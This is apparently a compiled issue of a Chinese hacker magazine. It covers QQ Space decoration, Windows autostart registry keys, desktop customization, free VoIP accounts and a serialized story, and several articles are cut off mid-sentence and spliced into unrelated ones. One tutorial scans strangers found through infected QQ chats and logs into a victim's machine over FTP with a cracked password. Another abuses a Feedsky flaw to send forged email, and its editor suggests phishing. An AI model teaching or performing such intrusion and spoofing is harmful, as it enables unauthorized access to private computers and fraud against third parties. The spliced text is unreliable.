我是真的很佩服TX工作人员的敬业精神，这不，今天一打开自己的空间发现那些好看的东西都没有了，让我一下以为走错空间了，仔细想想这也很正常，QQ空间的版本更新的速度一直都是很快的，现在都到了4.0了。没办法，重新做吧，注意，这可不是进空间商城买啊，而是完全用“免费”的方法来做，谁叫我没银子呢！
首先是个个人资料版块，很久没买QQ秀了，里面显示的是传统的背心+短裤的白饭装，这样秀给别人看不是丢自己的脸吗？如图1。
我们的任务就是改掉它，打开QQ秀网页，里面有很多TX推荐的漂亮Q秀，这里我希望大家进E季风中查找,如图2。
找到我们中意的Q秀后，在右边的QQ号码中可以知道此Q秀的主人，如图3。

记住它，再打开网页http://www.jl114.com/qq/qzone/xiangxiang.htm，会看到如图4界面，按照提示输入自己的QQ号码，图片地址怎么
> **cool 语**
时间过得好快，转眼间就到6月份了，“小朋友”们儿童节怎么过的呢？呵呵，其实还是蛮怀念小时候的，没有烦恼，不需要奔波，最大的愿望就是等待放假。可转眼间，就是沧海桑田……昨天去剪头发，结果不知怎么搞的，剪完后照镜子，感觉自己突然间老了十岁，往往忙碌中不觉得变化，等突然停住，却发现发丝已经枯黄。不过我们还幸运，因为拥有年轻……
这时我们回到自己的空间去看看，变了吧，如图6。

经我实测，就算你以后买了新的Q秀，也不会改变你空间里设置好的Q秀，所以我们完全不用担心Q秀消失的问题。
可惜遗憾的是这些装饰物只能在展示栏内移动，不能移到背景区去，为了弥补Microsoft\WindowsNT\CurrentVersion\Winlogon\Userinit 下。
这里也能够使系统启动时自动初始化程序。通常该注册键下面有一个 userinit.exe，但这个键值允许指定用逗号分隔的多个程序，例如“userinit.exe, notepad.exe”，在图 1 中为第 11 步。

## 五、SHELL 注册表键

SHELL 键值是用来启动桌面的，其位置在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon 下。SHELL 键值通常该注册键下面有一个 explorer.exe，但这个键值允许指定用逗号分隔的多个程序，例如“explorer.exe, notepad.exe”。此时 notepad.exe 会紧跟 explorer.exe 之后运行，在图 1 中为第 12 步。

## 六、RunOnce 注册键

安装程序通常用 RunOnce 键自动运行程序，它的位置在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce 和 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce。HKEY_LOCAL_MACHINE 下面的 RunOnce 键会在用户登录之后立即运行程序，运行时机在其他 Run 键指定的程序之前，几乎和 SHELL 键值的运行同步。HKEY_CURRENT_USER 下面的 RunOnce 键在操作系统处理其他 Run 键以及“启动”文件夹的内容之后运行。(编辑：要注意的是 RunOnce 的启动项只启动一次)

## 七、Run 注册键

Run 是自动运行程序最常用的注册键，位置在：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 和 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run。HKEY_CURRENT_USER 下面的 Run 键紧接 HKEY_LOCAL_MACHINE 下面的 Run 键运行，但两者都在处理“启动”文件夹之前。HKEY_LOCAL_MACHINE 是针对所有用户的，而 HKEY_CURRENT_USER 只是针对某个当前用户的。

## 八、组策略启动法

在“运行”中输入“gpedit.msc”打开组策略。找到计算机配置——Windows 设置——脚本（启动/关机）和用户配置——Windows 设置——脚本（登录/注销），如图 2、3。
脚本文件分别存放在 C:\WINDOWS\system32\GroupPolicy\Machine\Scripts\Startup（Shut down）和 C:\WINDOWS\system32\GroupPolicy\User\Scripts\Logon（Logoff）中，我们写个批处理文件放入其中即可。其中“启动脚本”在任何自启动程序之前执行，“登录脚本”在用户登录之后的所有自启动程序之前执行。

## 九、总结

最后我们将上面八个自启动顺序总结一下：

“组策略的计算机启动脚本”——“服务”——“Userinit 注册键”——“组策略的用户登录脚本”——“SHELL 键值”——“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce”——“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run”——“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run”——“对所有用户有效的启动文件夹”——“当前用户专有的启动文件夹”——“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce”。

列出顺序的目的是为了大家对启动顺序有个清晰的概念，也方便日后中病毒木马后能及时找出它们的藏身之处。

编辑点评：Windows 的自启动是从很早就被关注的安全问题，它的这个功能的确很有用，却也给很多用户带来了麻烦。除了文中讲到的这些 Windows 自带的自启动程序的方法外，越来越多的自启动方法被用在木马服务端自启动上，比如进程插入等。文中值得一提的是用组策略实现的自启动方法，这个比较少见，看来 Windows 越来越强大的功能背后的确提供了更多更新的功能，不过用这个方法启动程序不是像文中说的那样仅仅把脚本文件放入那两个文件夹就可以了，还需要在组策略中添加脚本文件才可以的，大家要注意哦！另外那张 Windows 的启动过程的图片也比较有价值。

# 自己动手打造个性 Windows

秋风一叶

- 从本文中你可以学到：
- 手工修改 Windows 的外观

“五一”不用上班，有点空闲，写点东西和大家一起学习下。相信大家都有自己热爱的操作系统，并且喜欢装饰得漂漂亮亮的，但是大多数人都是用软件，很少有人自己动手美化的，今天就让我们来一步步揭开美化软件的秘密——自己动手打造属于自己的个性 Windows！以下操作在 Windows Server 2003 下测试通过。

# 一、系统声音的更换

我们打开“控制面板——声音和音频设备”，来到“声音”选项卡，这里就可以设置我们自己喜欢的各种系统提示音了，如图 1。

登录”，然后在声音栏里便会出现当前使用的声音所在路径，这里我们就可以自己更改了，其他如“Windows 注销”等我就不一一介绍了，节约空间。

# 二、鼠标指针的更换

来到“控制面板——鼠标”，来到“指针”选项卡，如图 2。

一样有方案和个别更换，在自定义里选择相应事件指针，单击浏览就可以自定义我们的指针，方法和声音更换相似，这里就不多说了 ^_^

# 三、系统图标的更换

右击桌面选择“属性”，然后打开
“桌面”选项卡，点击“自定义桌面”进入“常规”选项卡，如图 3。

这里我们可以更换“我的电脑”，“我的文档”，“网上邻居”以及“回收站”的图标，系统默认调用的是 explorer.exe、mydocs.dll 和 shell32.dll 提取图标，这里我们可以自己来选择，如更换“我的文档”，单击更换图标，如图 4。
在此就可以选择我们的图片文件，我引用的是 crystal.icl 这个文件，然后在里面选择喜欢的图标，当然，大家也可以直接选择单个的 .ico 文件。依次更换“我的电脑”等的图标即可。下面我们来更换文件夹图标，选中目标文件夹，右击选择“属性”，来到“自定义”选项卡，单击更换图标便可以很方便地更换我们自己的图标了，这里默认依然是引用的 shell32.dll，我改成了 crystal.icl，如图 5。
选择相应图标保存即可。这里还给大家送个有颜色文件夹的图标文件 ColorFolder.dll，同样的方法调用就可以了，是不是很酷！好了，再来到我们的磁盘图标，这个比较简单，在每个盘的根目录下新建一个 AutoRun.inf 文件，内容如下：

```
[AutoRun]
icon=这里写你要使用的 ICO 图标文件路径


```

文件保存后重启电脑即可。
# 四、IE 工具栏及资源管理器背景的更换

这个就要编辑我们的注册表了，呵呵，别担心，很简单。“开始”菜单——“运行”键入 regedit 打开注册表，来到[HKEY_CURRENT_USER/Software/Microsoft/Internet Explorer/Toolbar]，在右边新建一个字符串值 BackBitmapIE5，双击写入你要使用的 IE 背景图片路径，再建一个字符串值 BackBitmapShell，同样输入图片路径，如图 6。
然后打开我们的浏览器看一下，是不是很漂亮了？如图 7。
# 五、开机画面的更换

首先准备一张自己准备使用的开机图片，要求为 640*480 的 16 色 BMP 图片，大小为 150KB，准备好之后我们就可以修改了，我们来到 Windows 目录下，找到 boot.ini 文件并打开（提示：boot.ini 文件应该是隐藏文件，我们可以在“工具”菜单——文件夹选项——查看”中去掉相应选项即可），在启动项后面有个 /fastdetect 参数，我们再在后面继续添加 /bootlogo/noguiboot 参数，boot.ini 文件就修改完毕了，你也可以把启动项名称改一下，更显个性呀，如图 8。
BOOT.INI 文件修改完之后，我们把刚才准备好的开机图片改名为 boot.bmp 并放入 Windows 目录下，下次开机时就可以看到自己的开机画面了。

# 六、设置开机对话框

在“运行”键入 gpedit.msc 打开组策略，依次来到“计算机配置——Windows 设置——本地策略——安全选项”，在右边找到“交互式登录：用户试图登录时消息标题”并双击写入提示框的标题，如“警告”等，然后再来到“交互式登录：用户试图登录时消息文字”写入要提示的信息，这样，在登录时就会出现该对话框了，大家可以随意组织语言，来警告那些试图非法使用您计算机的人。

# 七、右键菜单背景

到现在为止，右键菜单是不是还是觉得寒酸了点？现在我们就来更换一下右键背景。这里我们同样需要用到一个图标文件 ContextBG.dll，里面包含了我们需要的背景位图，把 ContextBG.dll 复制到 Windows 目录下（也可换成别的目录，这里我是 C:\Windows），然后在“运行”里输入 regsvr32 c:\windows\ContextBG.dll，会出现提示 ContextBG.dll 加载成功的提示，现在我们再用一下右键，变漂亮了吧！如图 9。
如果要去掉背景也很简单，用 regsvr32 /u c:\windows\ContextBG.dll 就可以了，如果要更换背景的话需要先去掉以前的背景然后再加载新的，也就是更换 ContextBG.dll 里的位图，这里推荐大家用 ResHacker，很多地方有下载。

# 八、其他

好了，一个漂亮的系统就呈现在我们面前了，而且是我们自己动手做的，没用任何软件哦，呵呵，要是大家还觉得不够，我

这里再给大家提供一个 Vista 的侧边栏和 YzDock，把它们写入启动项：[HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run]中就可以了，对了，一张个性的壁纸也是不可缺少的哦！

# 结束语

文章没什么高深技术可言，主要目的希望大家文章过后能够对那些美化软件的工作过程有一定的了解，能够摆脱软件，自己动手修改美化。文中所涉及到的图片及文件会一起打包给大家，有疑问的话大家可以到《黑客手册》的官方论坛 www.nohack.cn/bbs 上讨论。

[文章中涉及到的资源文件在光盘中有收录]

> **编辑点评：**天天都要面对 Windows 一成不变的面孔，你是否早已厌倦了呢？编者在以前用一个国外的 VISTA 风格软件对系统做了修改后，马上对 Windows XP 不够精致的声音、图标等产生了无以名状的烦躁，人果然是喜新厌旧的动物~虽然会牺牲一些内存，但很多朋友还是愿意对自己的系统做个小小的美化，尤其是现在正处于 Windows XP 到 Windows VISTA 的过渡时期，VISTA 要求的高硬件配置和不够成熟的兼容性使得更多想要尝鲜的朋友选择了更改为 VISTA 风格，也算是一个小小的满足了。软件对你的系统做的修改对你来说是不透明的，并且它们引入的一些 VISTA 程序也是比较占内存的。出手打造自己的个性 Windows，不仅可以让我们最大程度地做到“个性”，而且可以让我们学习到一些 Windows 的知识。一举两得的事情，我们当然要做了！

# 菜鸟的扫描入侵

龙月

- 从本文中你可以学到：
1. X-Scan v3.3 的简单使用
2. 如何发现安全防御脆弱的主机

一提到扫描工具，大家都知道吧（不知道的立刻回火星去），菜菜们是否经常拿起手中的扫描器对网络狂扫呢？寻找网络中的一些猫腻。我原来也经常扫描的，可是现在家家都有防火墙，扫描器也失去了用武之地。不过现在偶尔地扫描一下也是可以找到对计算机爱护不佳的人哦。

# 一、发现入侵机会

大家是否经常在 QQ 上收到这些信息呢，如图 1。
聪明的你肯定知道对方的机器中了 QQ 尾巴病毒了，它是怎么中的？我去百度查了下 QQ 尾巴的原理，找了重点内容：

“用户系统如果没安装漏洞补丁或没把 IE 升级到最高版本，那么访问某些网站的时候其访问的网页中嵌入的恶意代码即被运行，就会紧接着通过 IE 的漏洞运行一个木马程序进驻用户机器。然后在用户使用 QQ 向好友发送信息的时候，该木马程序会自动在发送的消息末尾插入一段广告词……”这些资料告诉我们那些中了 QQ 尾巴的用户，肯定是对计算机爱护不佳的人，所以我们要拿他们作为扫描对象再好不过。
# 二、漏洞扫描

扫描的首要工作自然是要知道对方电脑的 IP 地址了，对于找到对方 IP，最方便的方法就是下一个显 IP 的 QQ。对方的 IP 会显示在聊天对话的右上方，记下对方的 IP 后就可以进行扫描了。拿出有名的扫描工具“X-Scan v3.3”，点击工具栏上的“设置”中的“扫描参数”，如图 2。

出现参数扫描对话框，在“IP 指定范围”中输入对方的 IP 地址，如图 3。
点击“确定”。最后点击“文件”菜单中的“开始扫描”，X-Scan 就开始对对方电脑进行全面的扫描，如图 4。

> **提示：**由于 X-Scan 的功能很强大，自己扫描前可以根据自己的需要来设置扫描的范围。本文意不在此，就不再详细介绍如何设置了。

经过一会儿时间，就扫描完毕了。会自动弹出扫描报告！看了报告，吓了我一跳！第一次看到这么 BT 的电脑，如图 5。
对方的电脑一共开了 40 多个端口！几个超危险的端口也有开的，其中竟然有 4899 端口。想必大家都知道这个端口吧，这可是去年很流行的端口！什么，你不知道！？4899 端口是一个远程控制软件（Remote Administrator）服务端默认监听的端口，它有点类似于灰鸽子。它不能算是一个木马程序，但是具有远程控制功能，最关键的是，通常杀毒软件无法查出它来的。我们可以用 Radmin 这个工具实现连接，进行控制。
本来想用 4489 入侵的，但是再看扫描结果，有一个安全漏洞。这是 21 端口

的弱口令漏洞，那么什么是 21 端口呢？21 端口主要用于 FTP（File Transfer Protocol，文件传输协议）服务，FTP 服务是为了在两台计算机之间实现文件的上传与下载，一台计算机作为 FTP 客户端，另一台计算机作为 FTP 服务器，可以采用匿名（Anonymous）登录和授权用户名与密码登录两种方式登录 FTP 服务器。FTP 有一个根本的限制，那就是如果用户未被某一 FTP 主机授权，就不能访问该主机，实际上就是用户不能远程登录（Remote Login）进入该主机。也就是说，如果用户在某个主机上没有注册获得授权，没有“用户名和口令”，就不能与该主机进行文件的传输。也就是说只要获得 FTP 服务的“用户名和口令”就可以进行远程“入侵”，呵呵！看看 X-Scan v3.3 的扫描报告，口令与密码已经被破解了，如图 6。

21 端口入侵成功！现在可随时在对方机器上上传和下载东东！我本来想上传一个木马文件，不过看它这么可怜就不忍心了！
本次利用 21 端口进行入侵的，当然，这要归功于对方设密码的安全意识太差。(提示：21 端口可以通过“添加/删除程序”中删除 IIS 服务来完成关闭！一般的个人机器在默认情况下是不会开放 FTP 服务的！)
# 三、入侵 21 端口

打开“我的电脑”，在地址栏中输入：FTP://IP/（其中的 IP 为对方 IP），之后按下回车键，会出现登录对话框，如图 7。

输入扫到的用户名和口令，然后点击“登录”就可进入对方机器，如图 8。

看看都有哪些东西，如图 9。

# 四、关闭 21 端口

看来都是这个端口的错，我们来关闭它：
控制面板——管理工具——服务，在服务列表中，找到 FTP Publishing 服务，右键单击，选择“属性”，在“FTP Publishing 的属性”对话框中，将启动类型改为“手动”，单击“停止”按钮，将服务状态改变为“停止”，单击“确定”，完成设置。

其实关闭这种多余危险端口的方法有很多，由于各种端口的关闭方式不同，所以就不再介绍啦，不知道可以去百度搜。还有要说的就是，利用百度搜索自己不知道的东西是非常必要的！没有必要去论坛问一些能在网上找到的问题，既麻烦又不能得到很全面的回答。最后要说的：“保护自己的机器，人人有责。”

> > [文章中涉及到的工具 X-Scan v3.3 在光盘中有收录]

> > **编辑点评**：利用 QQ 尾巴可能有安全漏洞的主机，这倒是比较有意思的，真是为了找肉鸡什么方法都用上了，不过这个方法的确比较有效，加上腾讯超强的人气，像这样简单的就进入一台主机的机会不是没有哦，看你找不找了。其实完整的入侵是以拿下目标系统的管理权限为止的，像作者这样只有上传和下载的权限在表面上还没有达到使对方沦为肉鸡的地步，顶多是个存放工具的仓库，呵呵！不过网络安全是一块布，这样不负责任的对待自己的机器，相信拿下最高权限也不会太困难。

# 解铃无需系铃人——记破解一款文件夹加密软件

phenix

- 从本文你可以学到：
1、“木马辅助查找器”的特殊用处
2、IceSword 的一些功能

有的朋友们电脑里有些隐私文件，就想把它加密起来，但是大家有没有想过加密软件真的就那么安全么？经过软件加密的东西真的就那么可靠么？答案当然是否定的，类似软件在网上多如毛，前些天我在网上找了个号称“绝不是简单的隐藏文件夹！！！”经过该软件加密的文件(夹)可以防止访问、防止删除、防止拷贝、内容只有您知道。Ghost 还原、系统盘格式化，也依然可以照样使用”。呵呵，话说得未免太大了，今天我就教大家来破解它！

破解对象：宏杰工具之文件夹加密：一款专业的文件和文件夹加密器
破解工具：木马辅助查找器 2005，IceSword 1.18

俗话说：知己知彼，百战不殆！只要我们了解它的加密方法，破解它就会轻而易举。大家可能会纳闷了，破解加密文件夹用“木马辅助查找器 2005”干嘛？这其实就是我们的第一步：分析软件是如何对文件夹进行加密的！首先，我在 D 盘建了一个名为“加密”的文件夹，里面放了名为 1.rm 的影音文件，准备工作结束。第二步我们用“文件夹加密器”对其进行加密，加密的步骤很简单，选择文件，点击“按此开始加密”后设置一个密码，如图 1。

这时候请不要忙着点确定。我们打开“木马辅助查找器 2005 for 2000xp”利用它的文件操作监视器来对 D 盘进行监视，(由于## 利用 Feedsky 的漏洞 发送匿名邮件

黑皮猪

- 从本文中你可以学到：
- 自定义发件地址给任意 E-mail 发送邮件

Feedsky 最近正在测试一个所谓 Feed 互动的模块功能。所谓的 Feed 互动就是用户在使用 RSS 阅读器端浏览您文章的同时，不必一定要到文章的原始页面，就可以通过这个功能使用第三方的服务对文章进行管理，比如收藏到 del.icio.us、收藏到 365Key、Email 发送给朋友等；只要您激活了 Feed 互动的功能，并且将我们提供给您的代码粘贴到您的 Blog 后台里（事实上这个步骤根本不需要），读者可以在浏览您 Blog 文章的同时使用第三方提供的服务对文章进行评论、发送或者收藏啦。

当一切都做好后，我们访问这个 Feedsky 的地址（http://feed.feeedsky.com/nings），之后我们会发现，每篇文章下面都多了如图 1 中“发信给作者”等几个按钮。

出于好奇，我点了下“发信给作者”这个按钮，顿时 IE 的地址栏变成了如下的地址：

```
http://www.feedsky.com/flare_email_a.html?a_mail=nings360%40gmail.com
```

nings360%40gmail.com 也就相当于 nings360@gmail.com，而这个 nings360@gmail.com 也正是我们当初注册 Feedsky 所使用的邮件地址。

在源文件中我们发现如下关键语句：

```html
<input type="hidden" name="code" value="d2NmaXBxYnlwbWxWNy2dZZ212dw">
<input type="hidden" name="a_mail" value="nings360@gmail.com">
```

这么两句话，刷新一次后变成：

```html
<input type="hidden" name="code" value="ZHVvdnpzZmNubm10YmdjZXVyeQ">
<input type="hidden" name="a_mail" value="nings360@gmail.com">
```

看来 code 是一个随机生成的数，然后我用 IE 访问 http://www.feedsky.com/flare_email_a.html，再次查看源文件：

```html
<input type="hidden" name="code" value="b3N0b3hhbnh5bWJ3b3p4Y3dhdw">
<input type="hidden" name="a_mail" value="">
```

看来 a_mail=nings360%40gmail.com，就是来写入 a_mail 的 value 的。呵呵，知道这个文件的工作原理了，我们来看看它能做点什么吧？在地址栏中输入这个地址：http://www.feedsky.com/flare_email_a.html?a_mail=ifune@126.com，再次查看源文件的关键代码：

```html
<input type="hidden" name="code" value="Z3V4cnlianRzbnNsaHkyNtcw">
<input type="hidden" name="a_mail" value="ifune@126.com">


```

哈哈，要的就是这个效果，现在就来测试一下吧，在如图 2 中填写邮件信息，然后提交一下，如图 3。什么？您的 Email 已经成功发送！为了验证邮件确实已经发送，我们去 126 的邮箱看看，如图 4。

果然收到了，虽然有些乱码，但是这个发送匿名信息的方法是有效的。这篇文章只是给大家提供个发送匿名邮件的思路，不是让大家去做坏事哦~

> [文章的相关动画在光盘中有收录]

**编辑点评：**以前不晓得 FEED 是什么，看了这篇文章后才知道原来跟 Blog 紧密相联的还有这样一个名词。FeedSky 的这个漏洞说大不大说小也不小，网络钓鱼相信很多朋友都知道，我们完全可以利用 FeedSky 的这个漏洞伪造一封来自某服务提供商的邮件，告知用户需要到一个链接中修改个人信息等，当然这个链接打开的网页里面一定有一些名堂了。一个大站居然存在这种“低级”漏洞，实属不该，可谁知道国内还有多少同样规模的站点存在这样的缺陷呢？被修改主页还算是轻的，泄漏了用户信息或者造成了经济损失可就……最后提醒大家：不要用这个漏洞做坏事哦！

# 免费网络电话我看行

阳小子

- 从本文中你可以学到：
- 几个免费打电话的软件

自从看了第四期的一篇《免费电话我来打》之后，于是马上去网上下载来试用一番，可惜效果没有作者所说的那么好，注册一个账号可以打 30 分钟国内固定电话和手机，我注册后只打本地电话才不到 30 秒的通话时间就挂掉，而如果打的是长途电话则只有十多秒的通话时间，跟作者所说的 30 分钟差距太大，而且也不符合我们这些煲电话粥的朋友。所以自己决定重新找找，看能不能找到能够支持通话时间长久一点的免费网络电话，于是上百度那里搜索去，皇天不负有心人，终于被我找到两款通话时间比较长的免费网络电话。

一款名字叫做 RedVIP5，它的安装过程十分简单，所以就不说了，安装完后大家就要注册一个 VIP 号码，这里注册有两种方式，一种是 E-mail 注册，一种是手机短信注册，如图 1。手机短信注册的还可以立即获得三元话费，而这里我们选择 E-mail 方式注册，点击“Email 注册”就来到这里，如图 2。

除了手机那里不用填，其他的地方都要填写，这里说明一下，一个邮箱只可以注册一次，所以大家要好好珍惜。注册完毕后马上就可以收到一封名为“快钱”的邮件，点击进去以后就可以看到有认证 Email，如图 3。
点击后就又会收到两封邮件，如图 4。“Redvip注册通知”是告诉我们账号和密码的，另一个则是告诉我们已经注册成功！好了，现在我们可以用账号和密码来登陆了，登陆成功画面如图 5。
接着输入你要拨打电话或者手机号码，这里拨打电话的格式是：区号+电话号码，比如我这里的区号是 020，朋友的电话是 16816800，那么正确的输入方式是：02016816800，而手机的格式则是：0+手机号码，例如我的朋友号码是 13513513500，那么输入的格式是：013513513500，输入完毕就可以按绿色那个按钮给对方打电话了。另外一款软件叫做 UUCALL，其官方网是：http://china.uucall.com。直接下载回来安装就可以了，接着在官方网左上角那里点击免费注册，这里注册有两种方式，如图 6。
## 图 6 两种注册方式
## 图 7 填写注册信息

这里我们选择注册“UUCALL V3 版”，接着来到这里，如图 7。而这个软件注册比较简单，直接输入用户名密码和验证码就可以了，提交就来到这里，如图 8。
## 图 8 注册成功

而我们选择“立即获取免费通话”，接着来到这里，如图 9。
## 图 9 两种免费体验计划
## 图 10 输入验证码

在这里我们选择“免费手机短信参与”，然后输入手机号码，接着马上就会收到验证码。它这里规定每部手机只能参与一次，重复发送同一手机号码注册无效，所以大家要珍惜哦！收到体验码后我们要来到如图 10。

输入验证码，点击免费试用就可以了，我们就可以登录 UUCall 了，登录成功画面如图 11。
## 图 11 登录成功

最后总结一下：第一款 RedVIP5 注册步骤虽然多了点，但是每个用户注册就送一元话费，而且在各个省内打长途能支持六分钟，六分钟啊，对于我们来说已经很不错的啦，又没有 IP 限制注册的，所以大家可以多注册几个账号轮流着用。而第二款则需要用到手机来获取验证码体验，每个用户体验成功则送话费 3.6 元。

体验成功则送话费 3.6 元，如果打本地电话需要 1.5 毛一分钟的话则可以打上二十多分钟，完全可以够需要促电话的朋友免费煲一次了，最后希望大家也来多多体验一下免费网络电话的快乐！

这是我的第一次投稿，希望大家以后有良好的免费资源也公布出来，让大家共享一下，高兴一下，免费一下。

[文章中涉及到的工具 Redvip 和 UUCall 光盘中均有收录]

> 编辑点评：上次的那个工具我一直没有机会用，直到开始编辑这篇文章的时候，我才去尝试那个工具究竟能打多少时间。正好我朋友在旁边，就给他女朋友打了一个，当时周围环境很嘈杂，话没有说几句，一共坚持了 51 秒，的确没有坚持太长时间。所以这次再次将这个文章安排上来了，以飨读者。另外以前用过的一个叫做 KC 的网络电话也还是不错的，界面仿 MSN 和 QQ，注册时候需要绑定 QQ 或者 E-mail，验证需要手机，然后就会获得每天 10 条的短信和每个月 10 分钟的通话。这个通话我是实验过的，效果很好，差不多够十分钟了。不过很长时间没有用了，不知道现在是怎么样一个状况，大家可以去试试，要是它变卦了大家可不要扔我啊～
# XApache

## PDwoot

“六一”儿童节到了，印度要上网的儿童们有福了。他们在近期得到了一个相当丰厚的大礼——印度政府计划在两年内向所有印度公民提供 2M 的免费宽带服务，希望利用部分电信普遍服务基金铺设全国范围的光纤网络，达到促进整个国家经济发展的目的。而我们国家互联网的使用价格占人均收入水平的 10%，比发达国家高出 10 倍！而网络资源在一定程度上，是带有公益性质的，并不是单纯赚钱的工具。希望我们国家也尽快制定出相关的法案，来加快老百姓所需要的基础信息建设，缩短与发达国家的差距。这样，本期喃喃黑语的故事，可能就不会发生了。未满十八岁的朋友，这里并不推荐阅读。

他爸爸是在火葬场认识他妈妈的。

不知道是不是巧合？

他们都是孤儿。

那天，他爸爸正在上班，他妈妈送来了一个全身黑色的尸体。

据说，是一个乞丐的。

那个乞丐在三天前突然来到他妈妈家的门口，什么话也不说，只是呆呆地看着他妈妈。他妈妈也没有理那个乞丐。

后来，那个乞丐死在他妈妈家门前。他妈妈报了警。警察来收拾尸体的时候，从乞丐的手中掉出一个铜锁！

原来这个乞丐也是孤儿，和他妈妈在一个孤儿院长大的，后来孤儿院着火。他们就走散了！铜锁是当年他妈妈送给那个乞丐的。这件事对他妈妈的触动很大。以至于乞丐死后的那几天一直没睡着觉。

他爸爸和他妈妈谈了 4 年的恋爱，结婚了。这年他爸爸 37，他妈妈 36。

办喜事用光了他爸爸在火葬场上班挣的钱。他妈妈的存款也就还有 1 万了，他们俩决定开一家小杂食店。

在街坊邻居的帮助下，小店很快就开了起来。

他爸爸每天都汗流浃背地送货，接货。他妈妈每天都热情地招待每一位客人。

小店的生意一天一天红火起来。

他爸爸还花钱请了一个二十来岁的小姑娘帮忙。

不光是因为生意火，而是：

他妈妈怀上了他。

他爸爸知道是个男孩后，高兴地把他妈妈的脸亲了个“满汉全席”！

十月怀胎，十月怀胎。眼看生产的日子快要到了。

他爸爸请来的小姑娘却偷走了店里所有的钱！

没有钱再住院了！街坊邻居也借了个遍！

情急之下，他爸爸卖掉了店里的一切！但还是不够交住院护理费的！

后来，他爸爸去赌！

想靠赌钱碰碰运气！

没想到输得精光！还欠下四千元的债！赌场老板跟他要钱，他爸爸连一分钱也拿不出。被赌场里的打手当场打死！

他妈妈知道后，精神上受不了，疯了！

他妈妈生他的时候又难产！等他出来的时候，他妈妈已经断气五分多钟了。

他，成了孤儿！

好心的邻居韦叔把三个月大的他从孤儿院的婴儿房里抱出来，办了手续，领养了他。

他很聪明！小学、初中、高中一直是班上的尖子生。还特别喜欢电脑！也许是老天有眼吧。

他经常问韦叔，他的爸爸、妈妈在哪里？韦叔也总是告诉他：“你的爸爸和妈妈都在另一个世界看着你呢，你要好好学习！爸爸妈妈高兴了，也就来看你了。”

他十八岁那年，街坊邻居把一切都告诉了他。这件事给了他不小的打击。他一个月都没说过话。每天都在窗户边上傻傻地看着外面。

但他还是挺过来了，韦叔一直在他身后鼓励他。

韦叔是英文教师，操作英文版的 VF。他总是比别人快！

他研究生毕业时，韦叔还是光棍！

毕业后他找了一份相当不错的工作。在那里，他可以一边做自己的文秘，一边跟别人学习 Unix 和思科的相关知识。公司还有一台苹果机。设计师不用时，他就去摆弄摆弄。

经过自己的努力，他当了公司的部门主管。工资从 2000 涨到 7000。韦叔也退休了！

他现在有钱了！帮韦叔开了一家茶餐厅。还给自己买了一辆别克。下了班就开车帮韦叔的忙。韦叔喜欢喝红茶。他也是。

这天，他正在喝红茶。来了一位极为秀气水灵的女孩儿，坐在了吧台的对面。要了一杯甜咖啡！

他被她迷住了。他一直注视着她。但她却不知道，一直低着头玩弄自己的 MP4。

这时，她的手机突然响起。里面传来一个姑娘的声音：

“彩霞！昨天考试填空题第七题答案是什么呀？”

“啊？调出组策略命令那个？”

“对啊对啊！”

“好像是 gpedit 什么的！呃。我想想哈！gpedit 点什么来着？嗯。gpedit 点什么来着？”

这时，她的眼前飞来一张便条。上面写着 gpedit.msc。

是他写的！她看完便条，笑着看了他一眼。

“呵。我想起来了！是 gpedit.msc”。

“哈。我说的嘛！彩霞这么聪明，没有题会难倒你滴！谢了啊！”电话里的声音。

“HOHO！没啦没啦！不用谢啦！”

她挂了电话，傻笑着对他说：“帅哥！3Q 啦！”还伸出了三个手指头！

他一看，喷出一嘴红茶，边笑边找东西要擦吧台。但找了半天也没找到像样的东西。抹布什么的全长了脚似的不见了！

后来她从挎包里拿出一包“心心相印”。递给了他。

他不好意思地笑了笑，接过了面纸，也伸出了三个手指头说：“3Q，3Q！”

她看见了也哈哈大笑起来。

就这样，他和她相识了。不知道是不是造化弄人。她也是孤儿！

他和她聊得非常开心，当他问到她家在哪里时。她却不说话了。脸色也没刚刚那样开心了。他也很知趣地不问了。他心里想：谁还能没有点儿秘密呢？

时间过得很快！眨眼就过了一个小时。她要走了。她所在的那所大学校规很严！

他问她：“明天还来么？”

“帅哥！我还要考试咧！”

“那把你的 QQ 告诉我吧？”

“你要干嘛？”

“怎么？没事儿还不让‘三点儿水’啊？”

“‘三点儿水’是什么意思？”

“泡啊！难道你要我包你啊？”

“讨厌！小心我用舌头拍死你！（她是属蛇的！）我的 QQ 号是 XXXXXX”

这天夜里，他一直等着她，但她一直到 12 点都没上线。他对自己说：“可能是早早就休息了吧！”

他翻来覆去睡不着。直到很晚才睡。他爱上她了。

第二天晚上，她来了。

水蓝色的连衣裙、水蓝色的人造水晶鞋、粉色的 3D 唇膏，梳着小辫子。额头前留着不短不长半圆形的刘海！无处不显得格外水灵。在他的眼里，是那么的好看！那么的冰清玉洁！

他和她每天都聊得很开心！当然，肯定少不了甜言蜜语！

她每天都问他关于计算机方面的问题，而这些问题对于他来说，简直都是小儿科。像什么 Windows 2000 都有哪几种版本呀？哪种版本需要的硬件配置最高？每次他都表现出很费脑筋的样子。让她觉得他很可爱（其实他真的满可爱的，只是不幸罢了！）。

她渐渐地也爱上了他，可是不知道为什么，她一直不愿去他家做客，也不愿让他去自己住的地方。

这天，他照样在韦叔的店里帮忙，等着她的到来，准备给她一个惊喜！一个求爱的戒指！他们认识已经有三个月了。可是都 8 点多了，她还是没来！

正在发呆的他被韦叔叫了过去。

“我去进货。半小时后回来，你好好看店啊！”

“嗯。我知道了！”

韦叔说完话就走了。

半小时过去了，忽然来了一位自称认识韦叔的男人。满脸胡子。还留下了一张纸条。上面写着一个地址。还说让他转告韦叔“今晚九点来。”说完就走了！

他一看纸条，这不是全市出了名的红灯区么！他正在纳闷韦叔去妓院一条街干什么时。

韦叔进货回来了！

他手里握着纸条笑嘻嘻地来到了正在算账的韦叔身前：

